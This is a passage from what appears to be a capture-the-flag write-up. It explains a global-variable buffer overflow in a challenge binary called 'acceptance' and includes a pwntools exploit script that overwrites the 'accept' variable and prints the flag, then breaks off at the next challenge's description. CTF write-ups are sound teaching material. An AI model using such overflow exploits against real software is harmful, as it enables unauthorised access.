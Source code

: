 and have the following protections
```bash
$ checksec ./acceptance
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
{: .nolineno }

Our input is read into the global variable `say`, and ifthe global variable `accept` is not equal to 0 the `print_flag` function will be called. Inside `print_flag` we need the `accept` variable to be equal to 1.

We can overflow the `say` variable so that we overwrite the `accept` value, giving the value of -1.

We find the offset to the `accept` variable with a cyclic pattern in pwntools by breaking after our input has been read in
![Accept offset](accept_offset.png)

Knowing the offset we can write the -1 value to the `accept` variable
```python
io = start()

offset = 32
payload = b"A" * offset
payload += pack(-1)

io.recvuntil(b"him: ")
io.sendline(payload)

io.interactive()
```
{: .nolineno file="exploit.py" }

```bash
$ python3 exploit.py
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Switching to interactive mode
cvctf{Y34h_1_c4N_G0_n0w_tH4nK_y4u}
```
{: .nolineno }


## Ret2school
> Difficulty: Medium
>
> Bypass the authentication system by sending your homework over.
>
> Files: ret2school ld-2.27.so libc.so.6
